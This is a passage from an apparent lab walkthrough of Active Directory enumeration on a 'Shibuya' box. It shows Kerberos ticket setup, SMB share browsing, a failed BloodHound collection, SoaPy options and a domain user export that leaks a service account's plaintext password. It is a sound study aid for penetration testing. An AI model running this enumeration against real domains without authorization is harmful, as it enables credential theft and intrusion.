SMB         10.129.234.42   445    AWSJPDC0522      [+] shibuya.vl\red:red 
SMB         10.129.234.42   445    AWSJPDC0522      [+] TGT saved to: /home/penguin/OSCP/Shibuya/red.ccache
SMB         10.129.234.42   445    AWSJPDC0522      [+] Run the following command to use the TGT: export KRB5CCNAME=/home/penguin/OSCP/Shibuya/red.ccache
```
then we can export the ticket
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ export KRB5CCNAME=/home/penguin/OSCP/Shibuya/red.ccache

┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ klist
Ticket cache: FILE:/home/penguin/OSCP/Shibuya/red.ccache
Default principal: red@SHIBUYA.VL

Valid starting     Expires            Service principal
11/18/26 00:56:48  11/18/26 10:56:48  krbtgt/SHIBUYA.VL@SHIBUYA.VL
        renew until 11/19/26 00:56:48
```

similairly we can also use nxc to create an krb5.conf file and export it
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ nxc smb 10.129.234.42 -u "red" -p "red" -k --generate-krb5-file krb5.conf
SMB         10.129.234.42   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.42   445    AWSJPDC0522      [+] krb5 conf saved to: krb5.conf
SMB         10.129.234.42   445    AWSJPDC0522      [+] Run the following command to use the conf file: export KRB5_CONFIG=krb5.conf
SMB         10.129.234.42   445    AWSJPDC0522      [+] shibuya.vl\red:red 
```

we can avoid the pain of wrting the config file by automating this
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ sudo cp krb5.conf /etc/krb5.conf
```
then save or import to the path
`
> Reference : - https://www.netexec.wiki/smb-protocol/generate-krb5.conf-file

```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ impacket-smbclient -k -no-pass shibuya.vl/red@AWSJPDC0522.shibuya.vl
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 
# shares
ADMIN$
C$
images$
IPC$
NETLOGON
SYSVOL
users
# use users
# ls
drw-rw-rw-          0  Sun Feb 16 10:50:59 2025 .
drw-rw-rw-          0  Wed Apr  9 01:09:45 2025 ..
drw-rw-rw-          0  Wed Apr  9 00:36:27 2025 Administrator
drw-rw-rw-          0  Sat Feb 15 15:48:20 2025 All Users
drw-rw-rw-          0  Sat Feb 15 15:49:12 2025 Default
drw-rw-rw-          0  Sat Feb 15 15:48:20 2025 Default User
-rw-rw-rw-        174  Sat Feb 15 15:46:52 2025 desktop.ini
drw-rw-rw-          0  Wed Apr  9 00:30:42 2025 nigel.mills
drw-rw-rw-          0  Sat Feb 15 06:49:31 2025 Public
drw-rw-rw-          0  Tue Feb 18 19:36:45 2025 simon.watson
# tree
/desktop.ini
/Default/AppData
/Default/Application Data
/Default/Cookies
/Default/Desktop
/Default/Documents
/Default/Downloads
/Default/Favorites
/Default/Links
/Default/Local Settings
/Default/Music
/Default/My Documents
/Default/NetHood
/Default/NTUSER.DAT
/Default/NTUSER.DAT.LOG1
/Default/NTUSER.DAT.LOG2
/Default/NTUSER.DAT{c76cbcdb-afc9-11eb-8234-000d3aa6d50e}.TM.blf
/Default/NTUSER.DAT{c76cbcdb-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000001.regtrans-ms
/Default/NTUSER.DAT{c76cbcdb-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000002.regtrans-ms
/Default/Pictures
/Default/PrintHood
/Default/Recent
/Default/Saved Games
/Default/SendTo
/Default/Start Menu
/Default/Templates
/Default/Videos
/Default/AppData/Local
/Default/AppData/Roaming
/Default/Documents/My Music
/Default/Documents/My Pictures
/Default/Documents/My Videos
/Default/AppData/Local/Application Data
/Default/AppData/Local/History
/Default/AppData/Local/Microsoft
/Default/AppData/Local/Temp
/Default/AppData/Local/Temporary Internet Files
/Default/AppData/Roaming/Microsoft
/Default/AppData/Local/Microsoft/InputPersonalization
/Default/AppData/Local/Microsoft/Windows
/Default/AppData/Local/Microsoft/Windows Sidebar
/Default/AppData/Local/Microsoft/WindowsApps
/Default/AppData/Roaming/Microsoft/Internet Explorer
/Default/AppData/Roaming/Microsoft/Spelling
/Default/AppData/Roaming/Microsoft/Windows
/Default/AppData/Local/Microsoft/InputPersonalization/TrainedDataStore
/Default/AppData/Local/Microsoft/Windows/CloudStore
/Default/AppData/Local/Microsoft/Windows/GameExplorer
/Default/AppData/Local/Microsoft/Windows/History
/Default/AppData/Local/Microsoft/Windows/INetCache
/Default/AppData/Local/Microsoft/Windows/INetCookies
/Default/AppData/Local/Microsoft/Windows/PowerShell
/Default/AppData/Local/Microsoft/Windows/Shell
/Default/AppData/Local/Microsoft/Windows/Temporary Internet Files
/Default/AppData/Local/Microsoft/Windows/WinX
/Default/AppData/Local/Microsoft/Windows Sidebar/Gadgets
/Default/AppData/Local/Microsoft/Windows Sidebar/settings.ini
/Default/AppData/Roaming/Microsoft/Internet Explorer/Quick Launch
/Default/AppData/Roaming/Microsoft/Windows/CloudStore
/Default/AppData/Roaming/Microsoft/Windows/Network Shortcuts
/Default/AppData/Roaming/Microsoft/Windows/Printer Shortcuts
/Default/AppData/Roaming/Microsoft/Windows/Recent
/Default/AppData/Roaming/Microsoft/Windows/SendTo
/Default/AppData/Roaming/Microsoft/Windows/Start Menu
/Default/AppData/Roaming/Microsoft/Windows/Templates
/Default/AppData/Local/Microsoft/Windows/PowerShell/StartupProfileData-Interactive
/Default/AppData/Local/Microsoft/Windows/Shell/DefaultLayouts.xml
/Default/AppData/Local/Microsoft/Windows/WinX/Group1
/Default/AppData/Local/Microsoft/Windows/WinX/Group2
/Default/AppData/Local/Microsoft/Windows/WinX/Group3
/Default/AppData/Roaming/Microsoft/Internet Explorer/Quick Launch/Control Panel.lnk
/Default/AppData/Roaming/Microsoft/Internet Explorer/Quick Launch/desktop.ini
/Default/AppData/Roaming/Microsoft/Internet Explorer/Quick Launch/Server Manager.lnk
/Default/AppData/Roaming/Microsoft/Internet Explorer/Quick Launch/Shows Desktop.lnk
/Default/AppData/Roaming/Microsoft/Internet Explorer/Quick Launch/Window Switcher.lnk
/Default/AppData/Roaming/Microsoft/Windows/SendTo/Compressed (zipped) Folder.ZFSendToTarget
/Default/AppData/Roaming/Microsoft/Windows/SendTo/Desktop (create shortcut).DeskLink
/Default/AppData/Roaming/Microsoft/Windows/SendTo/Desktop.ini
/Default/AppData/Roaming/Microsoft/Windows/SendTo/Mail Recipient.MAPIMail
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs
/Default/AppData/Local/Microsoft/Windows/WinX/Group1/1 - Desktop.lnk
/Default/AppData/Local/Microsoft/Windows/WinX/Group1/desktop.ini
/Default/AppData/Local/Microsoft/Windows/WinX/Group2/1 - Run.lnk
/Default/AppData/Local/Microsoft/Windows/WinX/Group2/2 - Search.lnk
/Default/AppData/Local/Microsoft/Windows/WinX/Group2/3 - Windows Explorer.lnk
/Default/AppData/Local/Microsoft/Windows/WinX/Group2/4 - Control Panel.lnk
/Default/AppData/Local/Microsoft/Windows/WinX/Group2/5 - Task Manager.lnk
/Default/AppData/Local/Microsoft/Windows/WinX/Group2/desktop.ini
/Default/AppData/Local/Microsoft/Windows/WinX/Group3/01 - Command Prompt.lnk
/Default/AppData/Local/Microsoft/Windows/WinX/Group3/01a - Windows PowerShell.lnk
/Default/AppData/Local/Microsoft/Windows/WinX/Group3/02 - Command Prompt.lnk
/Default/AppData/Local/Microsoft/Windows/WinX/Group3/02a - Windows PowerShell.lnk
/Default/AppData/Local/Microsoft/Windows/WinX/Group3/03 - Computer Management.lnk
/Default/AppData/Local/Microsoft/Windows/WinX/Group3/04 - Disk Management.lnk
/Default/AppData/Local/Microsoft/Windows/WinX/Group3/04-1 - NetworkStatus.lnk
/Default/AppData/Local/Microsoft/Windows/WinX/Group3/05 - Device Manager.lnk
/Default/AppData/Local/Microsoft/Windows/WinX/Group3/06 - SystemAbout.lnk
/Default/AppData/Local/Microsoft/Windows/WinX/Group3/07 - Event Viewer.lnk
/Default/AppData/Local/Microsoft/Windows/WinX/Group3/08 - PowerAndSleep.lnk
/Default/AppData/Local/Microsoft/Windows/WinX/Group3/09 - Mobility Center.lnk
/Default/AppData/Local/Microsoft/Windows/WinX/Group3/10 - AppsAndFeatures.lnk
/Default/AppData/Local/Microsoft/Windows/WinX/Group3/desktop.ini
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Accessibility
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Accessories
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Maintenance
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/System Tools
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Windows PowerShell
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Accessibility/desktop.ini
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Accessibility/Magnify.lnk
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Accessibility/Narrator.lnk
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Accessibility/On-Screen Keyboard.lnk
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Accessories/Desktop.ini
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Maintenance/Desktop.ini
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/setwallpaper.lnk
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/System Tools/Administrative Tools.lnk
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/System Tools/Command Prompt.lnk
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/System Tools/computer.lnk
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/System Tools/Control Panel.lnk
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/System Tools/Desktop.ini
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/System Tools/File Explorer.lnk
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/System Tools/Run.lnk
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Windows PowerShell/Windows PowerShell (x86).lnk
/Default/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Windows PowerShell/Windows PowerShell.lnk

```
doesnt seems to have anything specific one the User share we can check for ACL on bloodhound for the 2 -users we have access to

```bash
┌──(penguin㉿0X0F)-[~/OSCP/Shibuya/BD]
└─$ bloodhound-ce-python -u red -k -no-pass -d shibuya.vl -dc AWSJPDC0522.shibuya.vl -c All
INFO: BloodHound.py for BloodHound Community Edition
WARNING: Could not find a global catalog server, assuming the primary DC has this role
If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: AWSJPDC0522.shibuya.vl
ERROR: Failed to resolve LDAP server IP
Traceback (most recent call last):
  File "/usr/bin/bloodhound-ce-python", line 33, in <module>
    sys.exit(load_entry_point('bloodhound-ce==1.9.1', 'console_scripts', 'bloodhound-ce-python')())
             ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~^^
  File "/usr/lib/python3/dist-packages/bloodhound_ce/__init__.py", line 347, in main
    bloodhound.run(collect=collect,
    ~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^^
                   num_workers=args.workers,
                   ^^^^^^^^^^^^^^^^^^^^^^^^^
    ...<4 lines>...
                   exclude_dcs=args.exclude_dcs,
                   ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
                   fileNamePrefix=args.outputprefix)
                   ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/bloodhound_ce/__init__.py", line 78, in run
    self.pdc.prefetch_info('objectprops' in collect, 'acl' in collect, cache_computers=do_computer_enum)
    ~~~~~~~~~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/bloodhound_ce/ad/domain.py", line 620, in prefetch_info
    self.get_objecttype()
    ~~~~~~~~~~~~~~~~~~~^^
  File "/usr/lib/python3/dist-packages/bloodhound_ce/ad/domain.py", line 305, in get_objecttype
    sresult = self.ldap.extend.standard.paged_search(self.ldap.server.info.other['schemaNamingContext'][0],
              ^^^^^^^^^^^^^^^^
AttributeError: 'NoneType' object has no attribute 'extend'
[ble: exit 1]
```

Bloodhound seems to cause issue again since it also use `ldap` to query the ACL  We could use an tool called `SoaPy` and `SoapBound` Which uses SOAP protocoal to enumerate lets test that  : )

> refernce  :- https://www.ibm.com/think/x-force/stealthy-enumeration-of-active-directory-environments-through-adws

>https://github.com/FalconForceTeam/SOAPHound

one of the thing i felt really bad or seems necessary doing this box was they havent implemented a kerberos authentication for `SoaPy` i am not sure why they havent done that yet ! due to any technical reasones or in future scope we will look into it further : )

```bash
┌──(penguin㉿0X0F)-[~/Downloads/BloodHound/Collectors/GhostPack/SoaPy]
└─$ poetry run soapy --help

███████╗ ██████╗  █████╗ ██████╗ ██╗   ██╗
██╔════╝██╔═══██╗██╔══██╗██╔══██╗╚██╗ ██╔╝
███████╗██║   ██║███████║██████╔╝ ╚████╔╝ 
╚════██║██║   ██║██╔══██║██╔═══╝   ╚██╔╝  
███████║╚██████╔╝██║  ██║██║        ██║   
╚══════╝ ╚═════╝ ╚═╝  ╚═╝╚═╝        ╚═╝   
    
usage: soapy [-h] [--debug] [--ts] [--hash nthash] [--users] [--computers] [--groups] [--constrained] [--unconstrained] [--spns] [--asreproastable] [--admins] [--rbcds] [-q query]
             [--filter attr,attr,...] [--rbcd source] [--spn value] [--asrep] [--account account] [--remove]
             connection

Enumerate and write LDAP objects over ADWS using the SOAP protocol

positional arguments:
  connection            domain/username[:password]@<targetName or address>

options:
  -h, --help            show this help message and exit
  --debug               Turn DEBUG output ON
  --ts                  Adds timestamp to every logging output.
  --hash nthash         Use an NT hash for authentication

Enumeration:
  --users               Enumerate user objects
  --computers           Enumerate computer objects
  --groups              Enumerate group objects
  --constrained         Enumerate objects with the msDS-AllowedToDelegateTo attribute set
  --unconstrained       Enumerate objects with the TRUSTED_FOR_DELEGATION flag set
  --spns                Enumerate accounts with the servicePrincipalName attribute set
  --asreproastable      Enumerate accounts with the DONT_REQ_PREAUTH flag set
  --admins              Enumerate high privilege accounts
  --rbcds               Enumerate accounts with msDs-AllowedToActOnBehalfOfOtherIdentity set
  -q, --query query     Raw query to execute on the target
  --filter attr,attr,...
                        Attributes to select from the objects returned, in a comma seperated list

Writing:
  --rbcd source         Operation to write or remove RBCD. Also used to pass in the source computer account used for the attack.
  --spn value           Operation to write the servicePrincipalName attribute value, writes by default unless "--remove" is specified
  --asrep               Operation to write the DONT_REQ_PREAUTH (0x400000) userAccountControl flag on a target object
  --account account     Account to preform an operation on
  --remove              Operarion to remove an attribute value based off an operation
```

we could have used `Soaphound.exe` to enumerate for ACL however my current setup doesnt have any windows VM  : ( sadly to enumerate from linux it would take ages so we can move forward

Also we can enumerate users through `--users` module which uses MSRPC protocol to enumerate the users 
```bash
──(penguin㉿0X0F)-[~/OSCP/Shibuya]
└─$ nxc smb 10.129.234.42 -u "red" -p "red" -k --users-export username.txt 
SMB         10.129.234.42   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.42   445    AWSJPDC0522      [+] shibuya.vl\red:red 
SMB         10.129.234.42   445    AWSJPDC0522      -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.129.234.42   445    AWSJPDC0522      _admin                        2025-02-15 07:55:29 0       Built-in account for administering the computer/domain 
SMB         10.129.234.42   445    AWSJPDC0522      Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.129.234.42   445    AWSJPDC0522      krbtgt                        2025-02-15 07:24:57 0       Key Distribution Center Service Account 
SMB         10.129.234.42   445    AWSJPDC0522      svc_autojoin                  2025-02-15 07:51:49 0       K5&A6Dw9d8jrKWhV 
SMB         10.129.234.42   445    AWSJPDC0522      Leon.Warren                   2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Graeme.Kerr                   2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Joshua.North                  2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Shaun.Burton                  2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Gillian.Douglas               2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Kelly.Davies                  2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Conor.Fletcher                2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Karl.Brown                    2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Tracey.Wood                   2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Mohamed.Brooks                2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Wendy.Stevenson               2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Gerald.Allen                  2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Leigh.Harrison                2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Brian.Elliott                 2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Ashleigh.Hancock              2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Kevin.Green                   2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Mathew.Richardson             2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Stanley.Johnson               2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Sophie.Smith                  2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Thomas.Wilson                 2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jacqueline.Taylor             2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Georgia.Smith                 2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Georgia.Kelly                 2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Alan.Green                    2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Mohammad.Todd                 2025-02-16 10:23:34 0        
SMB         10.129.234.42   445    AWSJPDC0522      Graham.Francis                2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Elaine.Roberts                2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Ross.Allen                    2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Grace.Humphries               2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Roy.Shepherd                  2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Emma.Noble                    2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Ryan.Harris                   2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Suzanne.Webb                  2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Edward.Smith                  2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Ellie.Chapman                 2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Bradley.Evans                 2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Grace.King                    2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Eric.Barnes                   2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Tracey.Holmes                 2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Joan.White                    2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Leslie.Osborne                2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Frederick.Smith               2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Joseph.Rowe                   2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Melanie.Brown                 2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jodie.Jenkins                 2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Bethany.Watson                2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Cameron.Begum                 2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jenna.Abbott                  2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Karl.Smith                    2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Arthur.Walker                 2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Sheila.Roberts                2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Tom.Barnes                    2025-02-16 10:23:35 0        
SMB         10.129.234.42   445    AWSJPDC0522      Stuart.French                 2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      William.Johnson               2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      David.Poole                   2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      Charlene.Walsh                2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jessica.Gordon                2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      Francesca.Day                 2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      William.Brown                 2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      Sylvia.Doyle                  2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      William.Thomas                2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      Craig.Owen                    2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      Leon.Daly                     2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jacob.Preston                 2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lynn.Pearson                  2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      Antony.Howell                 2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      Mary.Grant                    2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      Shirley.Matthews              2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      Louis.Bond                    2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      Norman.Clayton                2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      Rhys.Moore                    2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lynn.Gregory                  2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      Abdul.Mason                   2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      Diana.Rowe                    2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      Olivia.Houghton               2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      Katy.Webster                  2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      Judith.Black                  2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      Henry.Gallagher               2025-02-16 10:23:36 0        
SMB         10.129.234.42   445    AWSJPDC0522      Ryan.Horton                   2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Dylan.Booth                   2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Nathan.Matthews               2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Georgia.Carter                2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Derek.Wade                    2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      David.Cole                    2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lynn.Harrison                 2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Rachel.Flynn                  2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jade.Smith                    2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Hannah.Taylor                 2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Carole.Barrett                2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Brenda.Peacock                2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Robin.Stevens                 2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Victoria.Jones                2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Victor.Clarke                 2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Joel.Bailey                   2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Stanley.Lowe                  2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Billy.Williams                2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lorraine.Barber               2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Nicole.Walsh                  2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Mohamed.Daniels               2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Joseph.Woods                  2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Elliott.Hill                  2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Marie.Campbell                2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Cheryl.Patel                  2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Samuel.Curtis                 2025-02-16 10:23:37 0        
SMB         10.129.234.42   445    AWSJPDC0522      Dennis.Little                 2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Rachael.Taylor                2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Helen.Walton                  2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Richard.Stokes                2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Hilary.Collins                2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Christopher.Brookes           2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Max.Day                       2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Marcus.Stevenson              2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Leon.Murray                   2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Carly.Franklin                2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Luke.Nash                     2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Terry.Saunders                2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Callum.Walker                 2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Roger.Mills                   2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Elliott.Page                  2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Barry.Green                   2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jill.Clarke                   2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Vanessa.Harris                2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Ross.Smith                    2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jane.Stewart                  2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Gemma.Simpson                 2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Donald.Holmes                 2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Tracy.Ferguson                2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Damien.Dixon                  2025-02-16 10:23:38 0        
SMB         10.129.234.42   445    AWSJPDC0522      Geraldine.Herbert             2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Sarah.Warner                  2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Bryan.Watts                   2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Hayley.Morgan                 2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Glenn.Gough                   2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Sam.Stone                     2025-02-16 10:23:39 0        
